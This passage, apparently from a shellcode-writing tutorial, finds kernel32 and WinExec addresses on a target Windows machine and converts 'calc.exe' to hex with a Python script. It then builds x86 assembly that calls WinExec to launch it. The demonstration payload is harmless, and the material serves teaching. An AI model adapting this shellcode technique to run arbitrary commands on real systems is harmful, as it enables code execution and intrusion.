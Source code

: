 This program will tell you the kernel address and the `WinExec` address in `kernel32.dll`. Let's compile it:               
```bash
i686-w64-mingw32-gcc -O2 getaddr.c -o getaddr.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wall -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc >/dev/null 2>&1
```

![compile getaddr.exe](/assets/images/16/2021-10-27_20-22.png){:class="img-responsive"}          

and run in our target machine:
```cmd
.\getaddr.exe
```

![run getaddr.exe](/assets/images/16/2021-10-27_20-26.png){:class="img-responsive"}          

Now we know the addresses of our functions. Note that our program found the kernel32 address correctly. 

### assembly time

The `WinExec()` function within `kernel32.dll` can be used to launch any program that the user running the process can access:
```cpp
UINT WinExec(LPCSTR lpCmdLine, UINT uCmdShow);
```

In our case, `lpCmdLine` is equal to `calc.exe`, `uCmdShow` is equal to 1 (`SW_NORMAL`).        
Firstly convert `calc.exe` to hex via python script (`conv.py`):
```python
# convert string to reversed hex
import sys

input = sys.argv[1]
chunks = [input[i:i+4] for i in range(0, len(input), 4)]
for chunk in chunks[::-1]:
    print (chunk[::-1].encode("utf-8").hex())
```

![calc.exe to hex](/assets/images/16/2021-10-27_21-10.png){:class="img-responsive"}          

Then, create our assembly code:
```nasm
xor  ecx, ecx         ; zero out ecx
push ecx              ; string terminator 0x00 for "calc.exe" string
push 0x6578652e       ; exe. : 6578652e
push 0x636c6163       ; clac : 636c6163

mov  eax, esp         ; save pointer to "calc.exe" string in ebx

; UINT WinExec([in] LPCSTR lpCmdLine, [in] UINT   uCmdShow);
inc  ecx              ; uCmdShow = 1
push ecx              ; uCmdShow *ptr to stack in 2nd position - LIFO
push eax              ; lpcmdLine *ptr to stack in 1st position
mov  ebx, 0x76f0e5fd  ; call WinExec() function addr in kernel32.dll
call ebx
```
